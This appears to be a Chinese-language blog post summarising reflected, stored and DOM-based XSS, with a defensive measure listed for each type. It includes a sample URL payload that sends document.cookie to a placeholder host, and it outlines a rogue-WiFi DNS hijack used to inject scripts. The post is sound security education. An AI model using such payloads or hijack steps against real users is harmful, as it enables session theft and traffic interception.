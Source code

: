 ```yaml
---
title: "对于简单的 XSS 攻击的概念梳理"
layout: post
categories: security
date: "2019-09-06"
guid: urn:uuid:28b12cf0-4508-45d1-aaa5-8dde60d94eb5
tags:
  - xss
---
```


### 背景
前阵子想了解一些关于XSS攻击的知识，于是在网上翻阅了一些有关XSS的概念，于是我总结了下来，今天清理电脑的时候发现这篇文章，故提交之。

# XSS - Cross-site scripting
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

## Reflected XSS
主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击

例子：
1. 在搜索框搜索内容或者URL直接写入脚本，`<script>alert('handsome boy')</script>`, 点击搜索或者回车。
2. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
3. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```markdown
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
PS：这个地址当然是没效的，只是举例子而已。
```

结论：
如果第3步能做成功，才是个像样的XSS攻击。

开发安全措施：
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽


## Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行

例子：
1. 发一篇文章，里面包含了恶意脚本

```markdown
今天天气不错啊！  
<script>alert('handsome boy')</script>
```

2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

因为大部分文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。

结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

## DOM-based or local XSS
基于DOM或本地的XSS攻击。
一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

例子：
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

https://www.cnblogs.com/index-html/p/wifi_hijack_3.html
